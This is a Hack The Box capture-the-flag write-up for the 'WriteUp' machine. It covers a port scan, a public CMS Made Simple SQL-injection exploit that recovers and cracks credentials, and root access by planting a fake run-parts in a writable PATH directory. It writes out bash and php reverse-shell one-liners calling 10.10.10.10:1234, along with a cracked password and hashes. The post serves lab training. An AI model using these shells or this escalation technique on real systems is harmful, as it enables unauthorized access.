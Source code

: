 ```yaml
---
layout: post
title: WriteUp
categories:
- Hack The Box
---
```


>Another day, a different dream perhaps.
>
>-Alice

Time to get back to the business of learning something new. Today I looked at the WriteUp box. Rated as easy, this box didn't take too long to break, although I must admit I struggled a little bit with privesc simply because I tunnel visioned instead of moving on.

First as always let's start with a port scan to determine what we should be looking at.

```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Looks like we have an open SSH port and a hosted site. Straight away we see that there is a disallowed entry in **robots.txt**. Let's have a look at the site then check out the `/writeup/` directory.

![WriteUp Landing Page]({{"/images/WriteUp-Landing.png" | https://v0lch0k.github.io/images/WriteUp-Landing.png }})

Doesn't look like there is much here. Take note of the warning `Eeyore DoS protection script that is in place and watches for Apache 40x errors and bans bad IPs.`

We can try dirbuster and run the risk of having our IP blacklisted but let's first have a look at the `/WriteUp/` directory.

![WriteUp Landing Page]({{"/images/WriteUp-Wapp.png" | https://v0lch0k.github.io/images/WriteUp-Wapp.png }})

A few interesting write ups for older machines, but nothing that jumps out at us. Interesting that this part of the site uses a different web application. Namely `CMS Made Simple`. Having a quick look through the the exploit database we come across sever exploits relating to CMSMS.

![WriteUp Exploit DB]({{"/images/WriteUp-Search.png" | https://v0lch0k.github.io/images/WriteUp-Search.png }})

Let's try the SQL Injection one. 

```

python 46635.py -u http://10.10.10.138/writeup/



[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9

```

Looks like it's provided us with a username and a password. Attempting to use this at `/writeup/admin/` proves fruitless.

Let's see where else we could use it. Maybe that open ssh port?

Success

![WriteUp Exploit DB]({{"/images/WriteUp-Search.png" | https://v0lch0k.github.io/images/WriteUp-Search.png }})

Looks like we can grab the user flag from the home directory.

```
user.txt
d4e493fd4068afc9eb1aa6a55319f978
```

Now let's see how what we can use for privesc.

`ps aux` shows a few interesting processes but nothing that jumps out at us. Let's run our `LinEnum` scripts and employ the use of `pspy` to watch for any interesting processes or cronjobs.

```
2019/07/22 05:21:01 CMD: UID=0    PID=3937   | /usr/sbin/CRON 
2019/07/22 05:21:01 CMD: UID=0    PID=3938   | /usr/sbin/CRON 
2019/07/22 05:21:01 CMD: UID=0    PID=3939   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```


Looks like `pspy` picked up a cronjob running out of the root directory. Unfortunately we don't have access to it. Let's keep looking around and check back with `pspy` every once in a while.

Digging around the `LinEnum` output didn't reveal anything that jumps out, other than some `.htpasswd` files.

```

[-] htpasswd found - could contain passwords:
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
```

Before we deep dive into these hashes, we should have a look at our `pspy` output. 

```
2019/07/22 05:45:38 CMD: UID=0    PID=4070   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/07/22 05:45:38 CMD: UID=0    PID=4071   | run-parts --lsbsysinit /etc/update-motd.d 
2019/07/22 05:45:38 CMD: UID=0    PID=4072   | /bin/sh /etc/update-motd.d/10-uname 
2019/07/22 05:45:38 CMD: UID=0    PID=4073   | sshd: jkr [priv]  
```

That's very interesting, looks like someone sshed in, and as they did a script ran. Testing this out, every time we log in we see the following set of commands run.

```
 sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
```

Looks like this sets the environment path variable for the user every time they log in. Following that it executes `run-parts` to update the motd, and this is all done under UID 0.

Maybe we can hijack this process....

Firstly let's have a look at the path variable. The script first sets it to `/usr/local/bin`, we should take a look at what permissions we have for that directory since the second part of the login script will look for the `run-parts` binary in that folder before finding it in `/bin`.


Looks like we have don't have read permission for the directory, but we do have write. This appears to be our way to root. We should try a simple bash reverse shell here under the guise of the `run-parts` binary.

`bash -i >& /dev/tcp/10.10.10.10/1234 0>&1`

Writing this to a `run-parts` file in the `/usr/local/bin` directory and setting up a listener on our end we attempt to ssh in and trigger the automated script.

Unfortunately, we didn't get a shell back from this method. Let's take a look at the `pspy` output to see if the script was triggered. According to `pspy` everything went as planned. So why didn't we get our shell?
(Note: I spent too long a time trying to figure out why the bash reverse shell wasn't working instead of trying a different shell).
Let's try a different shell, maybe php?

` php -r '$sock=fsockopen("10.10.10.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

Using the same method of writing a file under the guise of `run-parts` to `/usr/local/bin` we log in an eagerly await our shell.

Success! Let's grab our root flag, and while we're at it have a look at what that cleanup script is doing. My guess is it simply, periodically cleans up the `/usr/local/bin` directory.

![WriteUp Exploit DB]({{"/images/WriteUp-Root.png" | https://v0lch0k.github.io/images/WriteUp-Root.png }})